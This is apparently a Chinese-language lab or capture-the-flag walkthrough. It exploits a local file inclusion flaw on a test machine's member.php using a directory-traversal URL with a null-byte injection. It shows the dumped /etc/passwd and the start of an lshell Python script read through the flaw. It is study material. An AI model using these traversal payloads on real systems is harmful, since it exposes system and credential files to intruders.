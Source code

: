 <figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

因此应用程序将附加.php到文件名中。如果我们考虑用户名在原始 URL 中的使用方式，这是有道理的。也许我们可以使用空字节注入来绕过这个问题。

尝试一下网址http://192.168.23.133/member.php?username=../../eetctc/passwd%00。有用！我们现在已经抛弃了/etc/passwd：

{% code overflow="wrap" %}
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh dhcp:x:101:102::/nonexistent:/bin/false syslog:x:102:103::/home/syslog:/bin/false klog:x:103:104::/home/klog:/bin/false mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin loneferret:x:1000:1000:loneferret,,,:/home/loneferret:/bin/bash john:x:1001:1001:,,,:/home/john:/bin/kshell robert:x:1002:1002:,,,:/home/robert:/bin/kshell
```
{% endcode %}

由此，我们发现了另一个用户名，但现在更重要的是，我们知道了用户的登录 shell john：/bin/kshell。如果这恰好是一个脚本文件，我们可以使用我们的 LFI 查看源代码。

{% code overflow="wrap" %}
```python
#!/usr/bin/env python 
# 
# $Id: lshell,v 1.5 2009/07/28 14:31:26 ghantoos Exp $ 
# 
# Copyright (C) 2008-2009 Ignace Mouzannar (ghantoos) 
# 
# This file is part of lshell 
# 
# This program is free software: you can redistribute it and/or modify 
# it under the terms of the GNU General Public License as published by 
# the Free Software Foundation, either version 3 of the License, or 
# (at your option) any later version. 
# 
# This program is distributed in the hope that it will be useful, 
# but WITHOUT ANY WARRANTY; without even the implied warranty of 
# MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the 
# GNU General Public License for more details. 
# 
# You should have received a copy of the GNU General Public License 
# along with this program. If not, see . 
""" calls lshell function """ 
import lshell 
if __name__ == '__main__': 
```